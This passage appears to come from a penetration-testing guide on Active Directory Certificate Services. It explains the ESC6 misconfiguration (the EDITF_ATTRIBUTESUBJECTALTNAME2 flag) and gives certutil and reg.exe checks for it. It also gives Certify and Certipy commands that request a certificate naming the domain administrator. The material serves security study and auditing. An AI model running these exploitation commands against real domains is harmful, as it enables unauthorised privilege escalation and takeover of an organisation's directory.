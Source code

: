The extensive web of interconnected ACL-based relationships, which includes several objects beyond certificate templates and the certificate authority, can impact the security of the entire AD CS system. These objects, which can significantly affect security, encompass:

* The AD computer object of the CA server, which may be compromised through mechanisms like S4U2Self or S4U2Proxy.
* The RPC/DCOM server of the CA server.
* Any descendant AD object or container within the specific container path `CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`. This path includes, but is not limited to, containers and objects such as the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, and the Enrollment Services Container.

The security of the PKI system can be compromised if a low-privileged attacker manages to gain control over any of these critical components.

## EDITF\_ATTRIBUTESUBJECTALTNAME2 - ESC6

### Explanation

The subject discussed in the [**CQure Academy post**](https://cqureacademy.com/blog/enhanced-key-usage) also touches on the **`EDITF_ATTRIBUTESUBJECTALTNAME2`** flag's implications, as outlined by Microsoft. This configuration, when activated on a Certification Authority (CA), permits the inclusion of **user-defined values** in the **subject alternative name** for **any request**, including those constructed from Active Directory®. Consequently, this provision allows an **intruder** to enroll through **any template** set up for domain **authentication**—specifically those open to **unprivileged** user enrollment, like the standard User template. As a result, a certificate can be secured, enabling the intruder to authenticate as a domain administrator or **any other active entity** within the domain.

**Note**: The approach for appending **alternative names** into a Certificate Signing Request (CSR), through the `-attrib "SAN:"` argument in `certreq.exe` (referred to as “Name Value Pairs”), presents a **contrast** from the exploitation strategy of SANs in ESC1. Here, the distinction lies in **how account information is encapsulated**—within a certificate attribute, rather than an extension.

### Abuse

To verify whether the setting is activated, organizations can utilize the following command with `certutil.exe`:

```bash
certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"
```

This operation essentially employs **remote registry access**, hence, an alternative approach might be:

```bash
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags 
```

Tools like [**Certify**](https://github.com/GhostPack/Certify) and [**Certipy**](https://github.com/ly4k/Certipy) are capable of detecting this misconfiguration and exploiting it:

```bash
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```
